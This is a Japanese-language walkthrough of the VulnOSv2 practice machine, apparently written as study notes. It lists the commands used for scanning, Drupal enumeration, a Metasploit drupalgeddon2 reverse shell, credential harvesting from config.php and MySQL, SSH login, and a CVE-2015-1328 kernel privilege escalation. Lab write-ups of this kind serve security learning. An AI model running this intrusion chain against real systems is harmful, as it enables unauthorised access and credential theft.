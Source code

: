 ## import
- メニューから仮想マシン、追加を選ぶ
- 仮想マシンファイルの選択画面でダウンロードしたファイルを指定
- これで追加される

## 事前に設定すること
- ホストのブラウザからParrotOS側にコピペする方法には設定が必要。例えばインターネット上にあるコードをWindowsuのブラウザでコピーして、ParrotOSがわでペーストする場合。
- VirtualBoxで設定、一般、高度(A)にしてクリップボードの共有、ドラッグ&ドロップの両方を双方向にする、これでコピペできるようになる

## VulnOSv2 719~
### ポートスキャンまで同じ。いつもとちょっと違う方法
- `sudo nmap -A -T4 vulnos2`
  - -Aは詳細にわかるが時間がかかる、-T4をつけると高速になるがターゲットの負荷が大きい 
- 22, 80, 6667

### サイトを探索
- メインのページのhtmlソースを見ると、単純なソースであることがわかる。このサイトは何かのアニメがモチーフになっているが何か？
- コメント、robots.txtを見る
  - `curl -s vulnosv2/jabc | grep "<\!--` 
- いろいろ見て回ると某アニメがモチーフになっているのもわかる
- htmlソースを見ると`/jabcディレクトリ`のみ、drupalソフトが使われていることがわかる
- Documentationというサイトがあるが、何も書かれていない。マウスで白抜きにすると文字が現れるのコピーして翻訳する。`/jabcd0cs`にopenDocManというログインサービスがあるのがわかる

### (旧のやり方)droopScanを使う
- drupal7を使っているのでdroopscanを使うが、パスが通っていないので絶対パスでコマンドを呼び出す
- `/home/user/.local/bin/droopescan scan drupal -u http://192.168.56.112/jabc`
  - 再帰的にリンクを辿っていくので深くまでわかる
  - 細かいバージョンがわかる

### (新しいやり方)droopScanを使う
- 旧をやってるのが前提
- droopescanのPATHを通す
- `sudo cp ~/user/.local/bin/droopescan /usr/bin/`
- `droopescan scan drupal -u http://vulunosv2/jabc/`

### drupageddon2を調べる
- drupalのバージョンがわかったのでそのバージョンの攻撃exploitを指定して使う
- ネットのexploitdbでdrupal_geddon2を調べる

### exploitを使う(攻略2でもできる)

- `msfconsole`
- プロンプトが変わる。metasploitツールのコマンドはタブを使って入力する
```
search drupal 7 type:exploit
use exploit/unix/webapp/drupal_drupalgeddon2
show targets
set RHOSTS ターゲット側のIPアドレス
set RPORT 80
set LHOST ParrotOS側のIPアドレス
set LPORT 4444
set TARGETURI /jabc/
show options
run
```
- 大文字のところは小文字でもOK
- show optionsで見ればわかるが、rport,lportはデフォルトで設定されている

### shellを使えるようにする
- `shell`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `env`環境変数を見る
  - SHELLの設定がなければ設定する
  - `export SHELL=/bin/bash` 
- www-dataユーザになる

### システム内を探索する
- SUIDを見る
  - 特に使えそうなのがない 
- `cd .. ; ls`
- 設定ファイルを探す
  - `find . -name config* 2> /dev/null`
- `cd jabcd0cs`
- `cat config.php`
  - MySQLの設定ファイルでMySQLのユーザ名`root`とパスワード`toor`がわかる
 

### MySQLを見る
- `mysql -u root -p`
  - `-u`はユーザ `-p`はパスワードのオプション
  - プロンプトが変わる `mysql>` 
- `show databases;`
- `use jabcd0cs;`
- `show tables`
- `describe odm_user;`
- `select id,username,password from odm_user;`
- user名とパスワードがわかる。ただし、得られるパスワードはハッシュ化されているが、これを復号するのは難しいので複合したパスワードは`webmin1980`になる
- `exit;`

### ssh接続する(攻略3でもできる)
- `su`コマンドを使わずに、シェルを始めからsshする珍しいパターン。今までの接続を維持したいので新しいターミナルを開いて行う
- 環境変数を設定する
- `ssh webmin@$IP`
  - `su webmin`でも交代はできるが、後々に謎のエラーになるのでやめておく
- webminユーザになる
- 対話的なシェルにする
  - `/bin/bash -i`

### システム内を探索する
- `uname -r`
  - Linuxカーネルが`3.13.0`であることがわかる 
- `cat /etc/lsb-release`
  - Ubuntuのバージョンがわかる`14.04` 
- ここからubuntuのバージョンから脆弱性があることがわかる。この攻略のコードを書き込む

### ファイルに書き込むため移動する
- webminに書き込もうとするとエラーで書けない
  - `ls -l`でチェックする `drwxr-x---`となっている 
- cd /tmp

### ローカル権限昇格を狙う
- Ubuntuの脆弱性(CVE2015-1328)を利用して権限を乗っ取る。ホストOSのブラウザで`Ubuntu 14.04.4 lts exploit`を検索すると,ExploitDatabaseのページがヒットして、似たのが多く出てくるので、CVEを確認、そこのソースコードをコピーする
- `webmin@VulnOSv2:~$ cat > priv.c`
- `gcc -o priv priv.c`
- `chmod +x priv`
- `./priv`
- ルートになれる
### フラグの取得
- `cd /root`
- `cat flag.txt`
